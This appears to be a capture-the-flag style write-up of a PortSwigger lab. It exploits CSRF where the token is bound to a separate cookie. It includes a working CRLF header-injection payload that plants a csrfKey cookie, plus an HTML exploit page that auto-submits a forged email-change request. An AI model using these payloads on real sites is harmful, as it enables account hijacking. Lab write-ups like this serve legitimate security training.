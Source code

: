 This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

# Vuln assessment

This lab is harder because the attacker's csrf cookie must be injected within the victim's browser. To do that the `search` functionality comes in handy:

![[cookie-injection.png]]

First try to inject the cookie:

![[cookie-injected.png]]

```http
/?search=testtest%0d%0aSet-Cookie:%20csrfKey=tVqbVTxl11NJvMuKmTFhJSAuL2qd248P%3b%20SameSite=None
```

*The key for the payload to work is that it injects a line break to allow the server to interpret the request parameters as another `Set-Cookie` header and the `SameSite` attribute is set to `none` this allows the cookie to be passed from the exploit server otherwise it won't get injected in the victim's browser.*

# Exploitation

Now the exploit requires two steps:
1. Injecting the cookie in the victim browser
2. Executing the csrf request

In the exploit server place the following code:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
<!-- STEP 1 & 2 -->
    <form action="https://0abf00c204fb46768199c57a000900db.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test5&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="lhzkCathjgb1my1fCftiETniIHSkogt5" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0abf00c204fb46768199c57a000900db.web-security-academy.net/?search=testtest%0d%0aSet-Cookie:%20csrfKey=tVqbVTxl11NJvMuKmTFhJSAuL2qd248P%3b%20SameSite=None" onerror="document.forms[0].submit();">
  </body>
</html>
```
